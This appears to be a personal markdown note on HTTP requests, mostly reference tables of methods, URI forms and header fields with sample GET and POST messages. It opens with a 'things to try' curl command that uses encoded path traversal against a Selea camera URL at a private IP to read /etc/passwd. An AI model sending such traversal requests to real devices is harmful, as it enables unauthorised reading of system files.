 ## things to try:
$ curl http://192.168.1.17:8080/CFCARD/images/SeleaCamera/%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd




|Request Method | Description|
|-------|------------|
|GET | The GET method is used to retrieve information from the given server using a given URI. Requests using GET should only retrieve data and should have no other effect on the data.|
|HEAD | Same as GET, but it transfers the status line and the header section only.|
|POST | A POST request is used to send data to the server, for example, customer information, file upload, etc. using HTML forms.|
|PUT | Replaces all the current representations of the target resource with the uploaded content.|
|DELETE | Removes all the current representations of the target resource given by URI.|
|CONNECT | Establishes a tunnel to the server identified by a given URI.|
|OPTIONS | Describe the communication options for the target resource.|
|TRACE | Performs a message loop back test along with the path to the target resource.|
|PATCH | The PATCH method is used to apply partial modifications to a resource.|

|Request-URI | Description|
|------------|------------|
|asterisk * | used when an HTTP request does not apply to a particular resource, but to the server itself, and is only allowed when the method used does not necessarily apply to a resource. For example: ```OPTIONS * HTTP/1.1``` |
| absoluteURI | used when an HTTP request is being made to a proxy. The proxy is requested to forward the request or service from a valid cache, and return the response. For example: ```GET http://www.w3.org/pub/WWW/TheProject.html HTTP/1.1``` |
|Request-URI | The most common form of Request-URI is that used to identify a resource on an origin server or gateway. For example, a client wishing to retrieve a resource directly from the origin server would create a TCP connection to port 80 of the host "www.w3.org" and send the following lines: ```GET /pub/WWW/TheProject.html HTTP/1.1``` |



|Request Header Fields|
|---------------------|
|Accept-Charset|
|Accept-Encoding|
|Accept-Language|
|Authorization|
|Expect|
|From|
|Host|
|If-Match|
|If-Modified-Since|
|If-None-Match|
|If-Range|
|If-Unmodified-Since|
|Max-Forwards|
|Proxy-Authorization|
|Range|
|Referer|
|TE|
|User-Agent|



## Examples of Request Messages
```
GET /hello.htm HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: www.tutorialspoint.com
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
```

```
POST /cgi-bin/process.cgi HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: www.tutorialspoint.com
Content-Type: application/x-www-form-urlencoded
Content-Length: length
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive

licenseID=string&content=string&/paramsXML=string
```

```
POST /cgi-bin/process.cgi HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: www.tutorialspoint.com
Content-Type: text/xml; charset=utf-8
Content-Length: length
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive

<?xml version="1.0" encoding="utf-8"?>
<string xmlns="http://clearforest.com/">string</string>
```











